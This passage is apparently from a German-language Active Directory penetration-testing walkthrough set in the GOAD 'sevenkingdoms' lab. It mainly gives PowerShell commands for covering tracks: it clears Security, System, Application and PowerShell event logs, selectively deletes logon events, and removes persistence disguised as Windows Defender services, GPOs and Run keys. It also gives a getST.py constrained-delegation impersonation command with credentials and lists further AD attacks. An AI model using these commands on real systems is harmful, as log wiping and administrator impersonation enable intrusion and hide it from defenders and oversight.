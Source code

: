 ### 11.2 Optional Cleanup (Lab Environment)

#### Minimal Cleanup (Maintaining Access)
```powershell
# Event Log-Cleanup für spezifische Zeiträume
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624,4648,4672} | Where-Object {$_.TimeCreated -gt (Get-Date).AddHours(-8)} | Clear-WinEvent

# Temporäre Dateien entfernen
Remove-Item C:\temp\* -Recurse -Force
Remove-Item C:\Windows\Temp\*.ps1 -Force
```

#### Complete Cleanup (Lab Reset)
```powershell
# Alle Persistence-Mechanismen entfernen
Remove-Service -Name "Windows Defender Advanced Threat Protection Service" -Force
Remove-GPO -Name "Windows Security Update" -Domain north.sevenkingdoms.local

# Registry-Cleanup
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefenderUpdate"

# Event Log Reset
wevtutil cl Security
wevtutil cl System  
wevtutil cl Application
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
```

---

## Phase 12: Advanced Techniques & Future Learning

### 12.1 Advanced Active Directory Attacks

#### Techniques Not Yet Implemented
```bash
# 1. Constrained Delegation Abuse
# Falls jon.snow constrained delegation hat
getST.py -spn cifs/target.domain.local -impersonate administrator north.sevenkingdoms.local/jon.snow:iknownothing

# 2. Resource-Based Constrained Delegation
# Computer Account Takeover für RBCD

# 3. Shadow Credentials Attack  
# Via ADCS wenn verfügbar

# 4. ADCS Template Abuse
# Certificate Authority exploitation
```
